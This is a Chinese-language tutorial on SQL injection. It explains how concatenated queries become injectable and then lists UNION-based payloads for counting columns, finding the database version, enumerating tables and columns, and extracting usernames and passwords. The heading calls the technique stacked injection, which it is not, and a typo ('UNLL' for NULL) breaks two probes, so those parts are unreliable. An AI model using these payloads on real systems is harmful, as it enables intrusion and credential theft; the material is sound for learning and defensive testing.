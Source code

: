 # SQL注入 - 堆叠注入

## SQL注入原理

SQL注入漏洞源自于程序员在应用开发时，通过 **拼接** 的方式来生成SQL语句。考虑以下代码：

> $sql = "SELECT title, description FROM books WHERE isbn = '" + $isbn + "' AND public = 1";

在“正常”情况下，程序员期待生成的SQL语句是类似这样的：

> SELECT title, description  
> FROM books  
> WHERE isbn = '`123`'  
> AND public = 1

但如果变量`$isbn`受控，我们可以令：

> $isbn = "`' UNION SELECT username, password FROM users -- `";

拼接后，SQL语句变为：

> SELECT title, description  
> FROM books  
> WHERE isbn = '<font color="red">' UNION SELECT username, password FROM users</font><font color="grey"> -- ' AND public = 1</font>

这样我们就把表`users`中的`username`和`password`也查出来了。

## 堆叠注入

### 确定SQL语句中`列`的数量

#### 方法一：通过 ORDER BY 子句试探

可以通过一系列“`ORDER BY 1`” 、“`ORDER BY 2`” ... 子句进行试探，如果进行到 “`ORDER BY n`” 时报错，则SQL语句有`n-1`列。

#### 方法二：通过 UNION SELECT UNLL 子句试探

可以通过一系列“`UNION SELECT NULL`”、“`UNION SELECT UNLL, NULL`” ... 子句进行试探，如果 SELECT `n` 个 NULL 时不再报错则SQL语句有`n`列。之所以用`NULL`，是因为每一列的元素数据类型要兼容，`NULL`与任何类型都兼容。

### 确定SQL语句中哪些列兼容字符串

通过一系列“`UNION SELECT 'a', NULL`”、“`UNION SELECT NULL, 'a'`”之类进行试探即可。

### 查询数据库版本

| 数据库           | SQL语法                      |
|------------------|------------------------------|
| MySQL，SqlServer | SELECT @@version             |
| Oracle           | SELECT banner FROM v$version |
| PostgreSQL       | SELECT version()             |

### 查询表信息

| 数据库                       | SQL语法                                                        |
|------------------------------|----------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT table_schema, table_name FROM information_schema.tables |
| Oracle                       | SELECT owner, table_name FROM all_tables                       |

### 查询列信息

| 数据库                       | SQL语法                                                                                       |
|------------------------------|-----------------------------------------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'TABLE-NAME' |
| Oracle                       | SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'TABLE-NAME'            |

### 把多个表列的信息合并为一列显示

`' UNION SELECT CONCAT(username, password) FROM users-- `

| 数据库               | 拼接语法               |
|---------------------|-----------------------|
| MySQL               | CONCAT('foo', 'bar')  |
| Oracle， PostgreSQL | 'foo' \|\| 'bar'      |
| Microsoft           | 'foo' + 'bar'         |
